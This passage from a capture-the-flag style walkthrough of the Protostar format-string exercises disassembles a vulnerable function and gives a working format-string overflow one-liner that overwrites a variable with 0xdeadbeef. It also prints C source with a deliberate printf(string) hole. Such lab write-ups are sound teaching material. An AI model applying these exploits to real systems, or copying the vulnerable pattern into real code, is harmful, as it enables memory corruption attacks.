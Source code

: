 ```shell
(gdb) disass vuln
Dump of assembler code for function vuln:
0x080483f4 <vuln+0>:    push   %ebp
0x080483f5 <vuln+1>:    mov    %esp,%ebp
0x080483f7 <vuln+3>:    sub    $0x68,%esp
0x080483fa <vuln+6>:    movl   $0x0,-0xc(%ebp)
0x08048401 <vuln+13>:   mov    0x8(%ebp),%eax
0x08048404 <vuln+16>:   mov    %eax,0x4(%esp)
0x08048408 <vuln+20>:   lea    -0x4c(%ebp),%eax
0x0804840b <vuln+23>:   mov    %eax,(%esp)
0x0804840e <vuln+26>:   call   0x8048300 <sprintf@plt>
0x08048413 <vuln+31>:   mov    -0xc(%ebp),%eax
0x08048416 <vuln+34>:   cmp    $0xdeadbeef,%eax
0x0804841b <vuln+39>:   jne    0x8048429 <vuln+53>
0x0804841d <vuln+41>:   movl   $0x8048510,(%esp)
0x08048424 <vuln+48>:   call   0x8048330 <puts@plt>
0x08048429 <vuln+53>:   leave
0x0804842a <vuln+54>:   ret
End of assembler dump.
```

The interesting memory locations here are `-0x4c(%ebp)` which belongs to
`buffer` and `-0xc(%ebp)` which belongs to `target`.

One method of exploiting format strings is pretty similar to buffer overflows.
You can write a large string into a buffer with a relatively short format
string. For example, a format string `%128d` results in a 128 byte string.
Using this trick, it is simple to write past `buffer` into `target`. We want to
create a format string that writes 64 characters followed by `0xdeadbeef`,
which results in `target` being overwritten.

```shell
user@protostar:~$ /opt/protostar/bin/format0 $(python -c "print '%64d\xef\xbe\xad\xde'")
you have hit the target correctly :)
```

# format 1

We are given the below source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);

  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```


[exploit-exercises]: https://exploit-exercises.com
[protostar-stack-writeup]: 2018-05-22-protostar-walkthrough-stack
[exploiting-format-string-paper]: https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf
[got-blog-post]: https://eli.thegreenplace.net/2011/11/03/position-independent-code-pic-in-shared-libraries/